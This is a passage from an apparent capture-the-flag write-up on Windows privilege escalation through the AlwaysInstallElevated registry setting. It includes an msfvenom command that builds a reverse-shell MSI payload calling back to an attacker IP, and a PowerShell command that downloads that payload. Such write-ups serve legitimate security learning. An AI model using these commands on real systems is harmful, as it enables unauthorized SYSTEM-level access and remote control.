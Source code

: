 Being able to create directories at the `C:\` root is interesting.

```

  [+] Drives Information
   [?] Remember that you should search more info inside the other drives
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 3 GB)(Permissions: Authenticated Users [AppendData/CreateDirectories])  

```

That’s not exploitable on it’s own, but enables others.

`AlwaysInstallElevated` is set to 1:

```

  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!  

```

This is bad, and is almost certainly exploitable.

There are some unquoted service paths with spaces in them. If I can restart those services, I could potentially hijack them.

### AlwaysInstallElevated

These registry keys tell windows that a user of any privilege can install `.msi` files are NT AUTHORITY\SYSTEM. So all I need to do is create a malicious `.msi` file, and run it.

I’ll use `msfvenon` to create the MSI installer. I did show this process manually for [Ethereal](/2019/03/09/htb-ethereal.html#create-msi), but it’s a painful process, and `msfvenom` will work here. I’ll use a reverse shell payload that I can catch with `nc`:

```

oxdf@parrot$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi

```

I’ll upload it just like I did with WinPEAS:

```

C:\ProgramData>powershell wget http://10.10.14.6/rev.msi -outfile rev.msi

```
